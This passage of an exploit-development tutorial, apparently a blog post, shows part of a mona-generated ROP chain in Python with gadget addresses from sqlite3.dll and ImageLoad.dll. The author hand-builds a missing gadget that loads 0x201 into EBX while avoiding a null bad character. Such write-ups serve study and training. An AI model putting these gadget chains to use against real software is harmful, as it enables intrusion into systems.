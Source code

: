       0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x1001b4f6,  # POP ECX # RETN [ImageLoad.dll] 
      0x61c73281,  # &Writable location [sqlite3.dll]
      0x100194b3,  # POP EDI # RETN [ImageLoad.dll] 
      0x1001a858,  # RETN (ROP NOP) [ImageLoad.dll]
      0x10015442,  # POP EAX # RETN [ImageLoad.dll] 
      0x90909090,  # nop
      0x100240c2,  # PUSHAD # RETN [ImageLoad.dll] 
    ]
    return ''.join(struct.pack('<I', _) for _ in rop_gadgets)

  rop_chain = create_rop_chain()
{% endcodeblock %}

Awesome, all hard work has been done for us! Well, not all of it actually - have a look at this line:

```
0x00000000,  # [-] Unable to find gadget to put 00000201 into ebx
```

Oops, mona found all but one gadget that we need for a successful ROP chain... but it's not the end of the world, let's find it ourselves! *And that's where the real fun begins.*

Looking through all available gadgets that mona found, I really couldn't find anything simple that would put value of 201 to EBX. There were some `POP EBX` instructions available, but that was not very helpful. Why? 201 in hex contains `\x00`, which is a bad character and we can't use it!

I kept poking around and decided that I will probably need to put the value into EBX through some other register that I can easily populate with whatever value I want (specifically 201). I decided to focus on EAX.

With couple simple gadgets, I had 201 in EAX in no time:

{% codeblock lang:python %}
	  # Generate value of 201 in EAX
	  0x10015442,  # POP EAX # RETN [ImageLoad.dll]
	  0xFFFFFDFF,  # Value of '-201'
	  0x100231d1,  # NEG EAX # RETN [ImageLoad.dll]
{% endcodeblock %}
